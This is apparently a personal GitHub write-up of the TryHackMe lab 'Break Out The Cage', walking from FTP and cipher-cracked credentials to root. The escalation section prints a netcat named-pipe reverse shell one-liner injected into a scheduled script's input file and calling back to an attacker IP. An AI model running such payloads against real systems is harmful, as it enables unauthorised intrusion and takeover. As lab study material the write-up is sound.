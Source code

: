 **<p align="center">TryHackMe: Break Out The Cage</p>**
---

<p align="center">
<img
src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Break-Out-The-Cage/Images/room%20icon.jpeg" alt="image alt" width="180" />
</p>

[![Day 29 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2029%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting

**Completed:** 8/13/2025

“Help Cage bring back his acting career and investigate the nefarious goings on of his agent!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I identified three open TCP ports:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
```

Two things stood out immediately:
- Anonymous FTP login was enabled.

- Port 80 hosted a site called “Nicholas Cage Stories.”

Checking out the HTTP service brought me to a static web page where Mr. Cage appeared to share updates with his fans. The page didn’t have working navigation links, but its source code included a few images and hardcoded references that felt worth keeping in mind for later.

![Alt text](1)

Since anonymous login was allowed, I connected to the FTP server and found a single file named `dad_tasks`. I downloaded it using:
```
Get dad_tasks
```

![Alt text](2)

Opening the file showed Base64-encoded text. After decoding, the result still looked scrambled, indicating it was likely encrypted or encoded again.

![Alt text](3)

To further investigate the scrambled output from the `dad_tasks` file, I ran it through an online cipher identifier. The tool recognized the text as a Vigenère cipher, which I was able to decode successfully. The plaintext not only contained some funny “Dad’s Tasks,” but also revealed Weston’s password.

![Alt text](4)

Using the recovered credentials, I logged into Weston’s account via SSH:
```
ssh weston@10.201.18.31
```

![Alt text](5)

I began basic enumeration to identify other local users and check for potential privilege escalation paths.

To list accounts with home directories:
```
cat /etc/passwd | grep "/home"
```

To see what commands Weston could run as root:
```
sudo -l
```

The output revealed Weston could run `/usr/bin/bees` as root. Executing it displayed the following broadcast message:
```
"AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```

![Alt text](6)

I checked group memberships using:
```
id
```

This confirmed Weston was also part of the `cage` group.

To search for files owned by this group, I ran:
```
find / -group cage 2>/dev/null
```

Among the results, one file stood out:
`/opt/.dads_scripts/spread_the_quotes.py`, a Python script responsible for the periodic broadcast quotes.

![Alt text](7)

Opening `/opt/.dads_scripts/spread_the_quotes.py` revealed a short Python script that reads all lines from `/opt/.dads_scripts/.files/.quotes`, randomly selects one, and then uses the `wall` command to broadcast it to all logged-in users.


This means that anything placed into `.quotes` would be executed by `wall`, giving us a potential code execution vector.

![Alt text](8)

Knowing I could inject commands, I looked up a Pentestmonkey Netcat reverse shell payload and set up a listener on my attack machine on port `4563`:
```
nc -lvnp 4563
```

![Alt text](9)

Opening `/opt/.dads_scripts/.files/.quotes` showed a long list of quotes, matching the ones broadcasted every few minutes by the script.

![Alt text](10)

To hijack the broadcast process, I overwrote the `.quotes` file with my payload:
```
echo "hello;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.18.126 4563 >/tmp/f" > /opt/.dads_scripts/.files/.quotes
```

`hello;` being a harmless filler to ensure the rest of the command runs cleanly. The rest creates a FIFO, connects back to my listener, and attaches an interactive shell.

After a moment, the scheduled script executed and I caught a reverse shell, now running as the user `cage`.

![Alt text](11)

To make the reverse shell more usable, I upgraded it to a fully interactive TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

On the user home directory lay a `email_backup` folder & a `Super_Duper_Checklist` file. The `Super_Duper_Checklist file` included the first THM flag.

![Alt text](12)

Reading through the emails in `email_backup` revealed clues for escalating privileges, confirming that Cage was not running as root.

![Alt text](13)

One email in particular, `email_3`, contained a string that looked like a ciphered password and repeated the word  `face` way too many times.

![Alt text](14)

Using an online cipher identifier, I determined the string was encrypted with a Vigenère cipher. The key was `face`, and decoding it revealed the root user’s password.

![Alt text](15)

Using the `su -` to change to the root user, along with the discovered password, successfully gave full root privileges.

In the root directory, there was another `email_backup` folder containing several more emails.

![Alt text](16)

Reading through the emails we find that Cage was in fact not being paranoid about his agent, he was in fact praying for his downfall. Amongst the theatrics was the root flag!

![Alt text](17)

<p align="center">+</p>

**Lessons Learned**

This room was really intriguing and a lot of fun to work through. It taught me about Vigenère ciphers and also introduced me to the `wall` command, what it is, how it works, and how it can be leveraged for command execution. It reinforced the importance of careful enumeration, analyzing encoded data, and thinking creatively for privilege escalation, showing how multiple techniques can be combined to move from a low-privilege user to root.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Break Out The Cage Room](https://tryhackme.com/room/breakoutthecage1)
- [Cipher Identifier](https://www.dcode.fr/cipher-identifier)
